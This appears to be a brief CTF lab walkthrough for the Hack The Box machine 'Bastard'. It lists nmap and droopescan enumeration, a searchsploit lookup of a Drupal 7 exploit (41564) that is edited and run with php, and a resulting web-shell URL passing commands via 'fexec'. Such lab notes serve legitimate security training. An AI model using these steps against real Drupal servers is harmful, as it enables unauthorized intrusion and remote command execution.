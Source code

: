 

# Bastard

```aidl
 nmap -sC -sV -oA nmap/bastard 10.10.10.9
 
```
> 10.10.10.9/CHANGELOG.txt  
google -> iis version  
google -> drupal 7.54 exploits
``` 
cd /opt/droopscan/
./droopscan drupal -u 10.10.10.9
```

``` 
searchsploit drupal
searchsploit -x php/webapps/41564.txt

mv 41564.php drupal.php
vi drupal.php
php drupal.php 
```
![](img/Bastard-img1.png)
> 10.10.10.9/ippsec.php?fexec=dir
   

